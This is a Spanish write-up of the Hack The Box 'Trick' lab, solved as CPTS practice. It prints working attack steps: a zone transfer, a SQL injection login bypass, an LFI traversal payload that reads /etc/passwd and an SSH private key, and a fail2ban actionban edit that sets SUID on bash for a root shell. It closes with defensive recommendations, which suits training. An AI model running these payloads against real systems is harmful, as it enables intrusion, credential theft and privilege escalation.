# Trick — Hack The Box (práctica CPTS)

**Plataforma:** Hack The Box
**Dificultad:** 🟢 Fácil
**SO:** Linux
**Certificación:** Práctica adicional para el CPTS (Certified Penetration Testing Specialist)
**Fecha de resolución:** 2026
**Técnicas:** Nmap · Transferencia de zona DNS (AXFR) · Fuzzing de subdominios con `wfuzz` (filtro por tamaño de respuesta) · **SQL Injection** en login · Credencial expuesta vía DevTools · **LFI** (directory traversal) → `/etc/passwd` y clave SSH privada · Abuso de `sudo` sobre `fail2ban` (`actionban`) → root
**Idioma:** Español — [🇬🇧 English version](./Trick_Writeup_EN.md)

---

## Índice
1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración — DNS y subdominios](#2-enumeración--dns-y-subdominios)
3. [Acceso inicial — SQL Injection y LFI](#3-acceso-inicial--sql-injection-y-lfi)
4. [Obtención de shell](#4-obtención-de-shell)
   - [Escalada de privilegios — abuso de `fail2ban`](#escalada-de-privilegios--abuso-de-fail2ban)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)
7. [Glosario de herramientas y comandos](#7-glosario-de-herramientas-y-comandos)

---

## 1. Reconocimiento

```bash
ping -c 1 10.129.75.177
```

> 🛠️ **`ping`** — comprueba disponibilidad del host por ICMP. TTL **63** (partiendo de 64) → sistema **Linux**.


Escaneo completo de puertos TCP:

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- -oN AllPorts 10.129.75.177
```

> 🛠️ **`nmap -sS -Pn -vvv --min-rate 5000 --open -n -p-`** — escaneo SYN de los 65535 puertos: `-sS` (sigiloso), `-Pn` (ignora el estado del ping), `--min-rate 5000` (acelera el envío), `--open` (solo puertos abiertos), `-n` (sin resolución DNS).



```bash
enum-nmap AllPorts
```

> 🛠️ **`enum-nmap`** — script propio que resume la salida de Nmap: IP, TTL, SO estimado y lista de puertos lista para el siguiente `-p`.



> 💡 4 puertos abiertos: **22 (SSH), 25 (SMTP), 53 (DNS) y 80 (HTTP)**. La presencia de un servicio DNS propio, poco habitual en máquinas sencillas, es la pista clave: sugiere que la enumeración DNS será parte central de la ruta de ataque.

Escaneo de versión y scripts por defecto:

```bash
nmap -sS -Pn -sCV -T5 -n -p22,25,53,80 -oN Ports 10.129.75.177
```

> 🛠️ **`-sCV`** combina `-sC` (scripts por defecto de Nmap) con `-sV` (detección de versión de servicio).


```
80/tcp open  http  nginx 1.14.2
|_http-title: Coming Soon - Start Bootstrap Theme
```

## 2. Enumeración — DNS y subdominios

### Resolución inversa y descubrimiento del dominio

```bash
dig @10.129.75.177 -x 10.129.75.177
```

> 🛠️ **`dig -x`** — realiza una consulta DNS **inversa** (PTR): a partir de una IP, pregunta qué nombre de dominio tiene asociado. Al apuntar la consulta al propio servidor DNS de la máquina (`@10.129.75.177`), aprovechamos que él mismo es autoridad para su zona y puede responder con información que un resolutor público no tendría.



```
177.75.129.10.in-addr.arpa. 604800 IN PTR trick.htb.
```

Añadimos el dominio al `/etc/hosts` para poder resolverlo localmente:


### ¿Qué es una transferencia de zona (AXFR) y por qué es peligrosa?

Una transferencia de zona es el mecanismo legítimo mediante el cual un servidor DNS **secundario** sincroniza toda la base de datos de una zona desde el servidor **primario** — en condiciones normales, solo debería permitirse a esos servidores secundarios autorizados explícitamente. Si el servidor no restringe quién puede solicitarla, **cualquier cliente** puede pedir el volcado completo de la zona con un simple `dig axfr`, obteniendo de golpe todos los registros DNS configurados: subdominios, hosts internos, registros de correo, etc. — información que de otro modo habría que adivinar o fuerza-brutear uno a uno.

```bash
dig @10.129.75.177 TRICK.HTB axfr
```



```
preprod-payroll.trick.htb. 604800 IN CNAME trick.htb.
```

> 💡 La transferencia de zona filtra directamente un subdominio (`preprod-payroll`) que no está enlazado desde ningún sitio visible — el nombre sugiere un entorno de **preproducción**, normalmente menos endurecido que producción.

Añadimos el subdominio al `/etc/hosts`:



## 3. Acceso inicial — SQL Injection y LFI

### Bypass de autenticación con SQL Injection

`preprod-payroll.trick.htb` aloja un **Recruitment Management System** (gestión de nóminas/RRHH):



Probamos una inyección SQL clásica de bypass de autenticación:

```
Username: ' or 1=1-- -
Password: (cualquiera)
```

> 🛠️ **`' or 1=1-- -`** — si el backend construye la consulta de login concatenando directamente el valor del campo (p. ej. `SELECT * FROM users WHERE username='<input>' AND password='...'`), esta cadena cierra las comillas del campo `username`, añade una condición **siempre verdadera** (`OR 1=1`) y comenta (`-- -`) el resto de la consulta original (incluida la comprobación de contraseña). El resultado: la consulta devuelve la primera fila de la tabla sin validar ninguna credencial real.



Acceso concedido como Administrator:



En la sección **Users** aparece la cuenta de administrador real:



```
Username: Enemigosss
```

### Revelando una contraseña oculta con las herramientas de desarrollador

El formulario de edición de ese usuario muestra la contraseña enmascarada, con el campo HTML marcado como `type="password"` — pero el **valor en sí** ya está presente en el DOM, solo oculto visualmente por el navegador.

```
Inspeccionar elemento → cambiar type="password" a type="text"
```

> 🛠️ **Edición de atributos DOM con DevTools** — un campo `<input type="password">` no cifra ni protege su valor de ninguna forma real: solo cambia cómo el navegador lo *muestra*. Modificando ese atributo directamente en el inspector, el navegador renderiza el valor ya presente en el campo como texto plano, sin necesidad de interceptar tráfico ni acceder al servidor.



```
Password: SuperGucciRainbowCake
```

### Fuzzing de subdominios con filtrado por tamaño de respuesta

Buscamos más subdominios de preproducción mediante el header `Host`:

```bash
sudo wfuzz -c -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: preprod-FUZZ.trick.htb" http://trick.htb
```

> 🛠️ **`wfuzz -H "Host: preprod-FUZZ.trick.htb"`** — en lugar de fuzzear una ruta, sustituye `FUZZ` dentro de la cabecera `Host` de cada petición, lo que permite descubrir **virtual hosts** (subdominios servidos por el mismo nginx) sin depender de que exista un registro DNS público para cada uno — basta con que el servidor web los reconozca.



> 💡 El servidor responde con código **200** incluso para subdominios que no existen (devuelve una página por defecto), lo que genera una lista enorme de falsos positivos. La clave para filtrarlos no es el código de estado, sino que **todos comparten el mismo tamaño de respuesta** (`5480` caracteres) — la huella de esa página por defecto.

```bash
sudo wfuzz -c --hh=5480 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: preprod-FUZZ.trick.htb" http://trick.htb
```

> 🛠️ **`--hh=<tamaño>`** (*hide by hash/chars*) — oculta de los resultados cualquier respuesta cuyo tamaño en caracteres coincida con el valor indicado. Es la técnica estándar para eliminar falsos positivos cuando el código de estado por sí solo no distingue contenido real de una página genérica.


```
"marketing" → 200, 178 L, 631 W, 9660 Ch
```

Con el ruido filtrado, aparece un único resultado genuino. Añadimos `preprod-marketing.trick.htb` al `/etc/hosts`:


### ¿Qué es un LFI y cómo se evade un filtro de traversal básico?

El nuevo sitio carga contenido dinámicamente mediante un parámetro `page`:

```
http://preprod-marketing.trick.htb/index.php?page=services.html
```


> 💡 Un **LFI (Local File Inclusion)** ocurre cuando una aplicación usa un parámetro controlado por el usuario para decidir qué fichero **del propio servidor** incluir/cargar, sin restringirlo a una lista cerrada de opciones legítimas. Si el valor no se sanea, es posible sustituirlo por una ruta arbitraria del sistema de ficheros.

Un filtro ingenuo contra *directory traversal* suele limitarse a eliminar la cadena literal `../` del input — pero solo **una vez**, no de forma recursiva. El patrón `....//` explota exactamente ese fallo: al quitar `../` del centro de `....//`, lo que queda es `../` de nuevo, reconstruyendo la secuencia de salida de directorio que el filtro creía haber neutralizado.

```
http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//....//etc/passwd
```




```
michael:x:1001:1001::/home/michael:/bin/bash
```

Con un usuario del sistema identificado, reutilizamos el mismo LFI para intentar leer su clave SSH privada:

```
view-source:http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//....//home/michael/.ssh/id_rsa
```

> 🛠️ **`view-source:`** — prefijo de Firefox/Chrome que fuerza mostrar la respuesta HTTP como texto plano sin interpretarla, evitando que el navegador intente renderizar el contenido de la clave como HTML.


## 4. Obtención de shell

```bash
chmod 600 id_rsa
```

> 🛠️ **`chmod 600`** — restringe los permisos de la clave privada a lectura/escritura solo para el propietario. OpenSSH rechaza claves con permisos más permisivos por motivos de seguridad.


```bash
ssh -i id_rsa michael@10.129.75.177
```



```
ls
Desktop Documents Downloads Music Pictures Public Templates user.txt Videos
```

`user.txt` confirmado en el home de `michael` — primera flag.

## Escalada de privilegios — abuso de `fail2ban`

```bash
sudo -l
```

> 🛠️ **`sudo -l`** — lista los comandos que el usuario actual puede ejecutar con privilegios elevados vía `sudo`, el primer chequeo obligatorio en cualquier escalada de privilegios en Linux.



```
User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```

Por sí solo, reiniciar un servicio no parece explotable — pero inspeccionamos sus ficheros de configuración:

```bash
cd /etc/fail2ban
ls -la
```


```
drwxrwx--- 2 root root security 4096 action.d
```

### ¿Por qué esta combinación es explotable?

**fail2ban** es un servicio que monitoriza logs (típicamente de SSH) y, al detectar un número configurable de intentos fallidos de login desde una misma IP en poco tiempo, ejecuta una **acción de baneo** (`actionban`) — normalmente una regla de `iptables` que bloquea esa IP. Esas acciones están definidas en ficheros `.conf` dentro de `action.d/`, y **se ejecutan siempre como root**, porque solo root puede modificar las reglas del firewall.

El directorio `action.d` pertenece al grupo **`security`**, del que `michael` es miembro, con permisos de **escritura de grupo** (`rwxrwx---`). Esto significa que `michael` puede **modificar qué comando ejecuta fail2ban al banear una IP** — y, gracias al `sudo` sin contraseña sobre `/etc/init.d/fail2ban restart`, puede recargar esa configuración modificada sin necesitar la contraseña de root en ningún momento. (Referencia de la técnica: [infosecwriteups.com — Fail2ban Privilege Escalation](https://infosecwriteups.com/fail2ban-privilege-escalation-5de164aff6f3).)

Modificamos la acción `actionban` del jail que vigila SSH:

```bash
mv iptables-multiport.conf .old
cp .old iptables-multiport.conf
nano iptables-multiport.conf
```

> 🛠️ **`mv`/`cp` antes de editar** — conserva una copia de seguridad del fichero original, buena práctica antes de modificar una configuración del sistema, aunque en este caso el objetivo final es el abuso, no la restauración.


```ini
actionban = chmod u+s /bin/bash
```

> 💡 Sustituimos la acción real de baneo por un comando arbitrario. Como `actionban` se ejecuta como **root**, este `chmod u+s /bin/bash` activará el bit **SUID** sobre `/bin/bash` en el momento exacto en que fail2ban detecte y banee una IP — convirtiendo la ejecución del binario en una vía directa a una shell con privilegios de root para cualquiera que lo ejecute después.


Reiniciamos fail2ban para que recargue la configuración modificada, usando el permiso `sudo` sin contraseña:

```bash
sudo /etc/init.d/fail2ban restart
```

Monitorizamos en una terminal los permisos de `/bin/bash` mientras provocamos el baneo:

```bash
watch -n 2 'ls -la /bin/bash'
```

> 🛠️ **`watch -n 2 '<comando>'`** — repite un comando cada 2 segundos, refrescando la pantalla; útil para observar en tiempo real el momento exacto en que cambia el estado de un fichero.


En otra terminal, forzamos varios intentos fallidos de login SSH contra la propia máquina hasta superar el umbral de reintentos configurado en el jail de fail2ban:

```bash
for i in {1..10}; do sshpass -p '1213' ssh michael@10.129.75.177; done
```

> 🛠️ **`sshpass -p`** — automatiza el envío de una contraseña a `ssh` sin interacción manual, permitiendo repetir intentos de login fallidos en bucle rápidamente para disparar el umbral de baneo de fail2ban.


En cuanto fail2ban banea la IP, ejecuta `actionban` como root — aplicando nuestro `chmod u+s /bin/bash` inyectado:


```
-rwsr-xr-x 1 root root 1168776 /bin/bash
```

Con el bit SUID activo, obtenemos una shell con privilegios de root:

```bash
bash -p
```

> 🛠️ **`bash -p`** (*privileged mode*) — cuando `bash` tiene el bit SUID activo, ejecutarlo con `-p` evita que el propio shell "degrade" automáticamente el UID efectivo al real al arrancar (comportamiento de seguridad por defecto de bash ante SUID), preservando así los privilegios de root heredados del bit SUID.



## 5. Post-explotación y flags

```
ls
```


`root.txt` confirmado — compromiso total del sistema.

> 🔒 El contenido exacto de `user.txt` y `root.txt` no se publica en este writeup a propósito, para no regalar la respuesta a quien esté practicando esta misma máquina — el camino completo hasta cada uno queda documentado en las secciones §4 y §5.

## 6. Lección aprendida

| Vulnerabilidad | Dónde | Impacto |
|----------------|-------|---------|
| Transferencia de zona DNS (AXFR) permitida a cualquier cliente | Puerto 53 | Filtra subdominios internos no enlazados públicamente |
| Formulario de login vulnerable a SQL Injection | `preprod-payroll.trick.htb` | Bypass completo de autenticación como Administrator |
| Contraseña recuperable cambiando el tipo de un campo HTML desde DevTools | Panel de edición de usuario | Robo de credenciales sin ninguna explotación del servidor |
| Subdominio adicional no enlazado, solo descubrible por fuerza bruta de vhosts | `preprod-marketing.trick.htb` | Expone una superficie de ataque adicional no destinada a ser pública |
| LFI vía parámetro `page` sin sanitizar, vulnerable a un bypass de filtro trivial | `index.php?page=` | Lectura arbitraria de ficheros del sistema, incluidas claves SSH privadas |
| `sudo` para reiniciar fail2ban combinado con escritura de grupo sobre `action.d` | `/etc/fail2ban/action.d` | Permite inyectar una acción arbitraria ejecutada como root al banear una IP |

## Recomendaciones defensivas

- Restringir las transferencias de zona DNS (AXFR) solo a servidores secundarios autorizados explícitamente.
- Usar siempre consultas parametrizadas/prepared statements para prevenir SQL Injection; nunca concatenar input de usuario en SQL.
- No confiar en la ofuscación del lado del cliente (`type="password"`) como medida de seguridad — el valor siempre está presente en el DOM.
- No depender de "seguridad por oscuridad" para subdominios internos; protegerlos con autenticación real si no deben ser públicos.
- Validar y sanear estrictamente cualquier parámetro usado para incluir ficheros, usando listas blancas en vez de intentar filtrar patrones de traversal (los filtros de una sola pasada son evadibles con patrones como `....//`).
- Restringir los permisos de escritura sobre los directorios de configuración de fail2ban (`action.d`, `filter.d`) exclusivamente a `root`.
- Auditar regularmente las reglas de `sudo` otorgadas, especialmente cuando el binario permitido puede recargar una configuración escribible por el propio usuario.

## 7. Glosario de herramientas y comandos

| Herramienta / comando | Para qué sirve |
|------------------------|-----------------|
| `ping` / `nmap` | Descubrimiento de host y enumeración de puertos/servicios |
| `enum-nmap` | Script propio que resume la salida de Nmap |
| `dig -x` | Consulta DNS inversa (PTR): obtiene el nombre de dominio asociado a una IP |
| `dig axfr` | Solicita una transferencia de zona DNS completa; si el servidor no la restringe, filtra todos sus registros, incluidos subdominios internos |
| **SQL Injection en login** (`' or 1=1-- -`) | Manipula la consulta SQL del backend para que devuelva una fila válida sin conocer ninguna credencial real |
| **Edición de atributos DOM con DevTools** | Revela valores ya presentes en el HTML pero ocultos visualmente (como `type="password"`), sin necesidad de interceptar tráfico |
| `wfuzz -H "Host: FUZZ..."` | Fuzzing de virtual hosts sustituyendo el valor de la cabecera `Host`, para descubrir subdominios servidos por el mismo servidor web |
| `--hh=<tamaño>` (wfuzz) | Oculta respuestas de un tamaño concreto en caracteres, para filtrar falsos positivos cuando el código de estado no distingue contenido real |
| **LFI (Local File Inclusion)** | Inclusión de ficheros arbitrarios del servidor a través de un parámetro no saneado |
| `....//` (bypass de traversal) | Evade filtros que eliminan `../` una sola vez: al quitar la coincidencia central, el patrón se reconstruye en `../` |
| `view-source:` | Fuerza al navegador a mostrar una respuesta como texto plano sin interpretarla |
| `chmod 600` | Restringe una clave privada SSH a lectura/escritura solo del propietario, requisito de OpenSSH |
| `sudo -l` | Lista los comandos que el usuario actual puede ejecutar con privilegios elevados |
| **fail2ban / `actionban`** | Servicio que banea IPs tras intentos fallidos de login, ejecutando como root una acción configurable — si esa configuración es escribible por un usuario no privilegiado, es una vía directa de escalada |
| `watch -n <seg> '<comando>'` | Repite un comando periódicamente, útil para observar cambios de estado en tiempo real |
| `sshpass -p` | Automatiza el envío de contraseñas a `ssh`, útil para forzar intentos fallidos de login en bucle |
| `bash -p` | Ejecuta bash en modo privilegiado, preservando el UID efectivo heredado de un bit SUID en vez de degradarlo al UID real |

---

*Escrito por [Arabot](https://github.com/Caan31) · Hack The Box · práctica CPTS · 2026*
